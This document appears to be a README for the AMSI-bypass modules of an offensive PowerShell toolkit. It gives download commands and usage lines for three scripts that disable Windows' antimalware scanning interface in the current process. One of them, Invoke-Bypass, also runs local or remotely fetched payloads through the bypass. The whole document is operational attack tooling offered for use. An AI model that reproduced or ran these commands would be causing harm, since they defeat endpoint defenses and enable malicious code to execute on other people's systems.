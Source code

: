 ## Module Name
   <b><i>AMSBP.ps1</i></b>

|Function name|Description|Privileges|Notes|
|---|---|---|---|
|AMSBP|Disable AMSI within current process|User Land|\*\*\*|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/AMSBP.ps1" -OutFile "AMSBP.ps1"
```

```powershell
Import-Module -Name ".\AMSBP.ps1" -Force
AMSBP
```

<br />

## Module Name
   <b><i>Disable-Amsi.ps1</i></b>
   
|Function Name|Description|Privileges|Notes|
|---|---|---|---|
|Disable-Amsi|disable AMSI within current process using well<br />known techniques laid out in an unsignatured way</i></b>|User Land|3 bypass technics available (auto-sellection)|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/Disable-Amsi.ps1" -OutFile "Disable-Amsi.ps1"
```

```powershell      
Import-Module -Name ".\Disable-Amsi.ps1" -Force
Disable-Amsi -DontDisableBlockLogging "true"
```   

<br />

## Module Name
   <b><i>Invoke-Bypass.ps1</i></b>
   
|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|Invoke-Bypass|disable AMSI within current process + exec script through bypass?|User Land|3 bypass technics available (manual)|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/Invoke-Bypass.ps1" -OutFile "Invoke-Bypass.ps1"
```

**prerequisites:**
```
-filepath 'string' only accepts .ps1 .bat .vbs file formats
-payloadurl 'string' only accepts .ps1 .bat .vbs file formats
```

```powershell      
.\Invoke-Bypass.ps1 -list "technic"
.\Invoke-Bypass.ps1 -technic "1"
.\Invoke-Bypass.ps1 -technic "2" -filepath "payload.ps1"
.\Invoke-Bypass.ps1 -technic "3" -filepath "payload.ps1" -fileargs "-action 'true'"
.\Invoke-Bypass.ps1 -technic "2" -payloadUrl "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/bin/sysinfo.ps1" -fileargs "-sysinfo enum"
```   
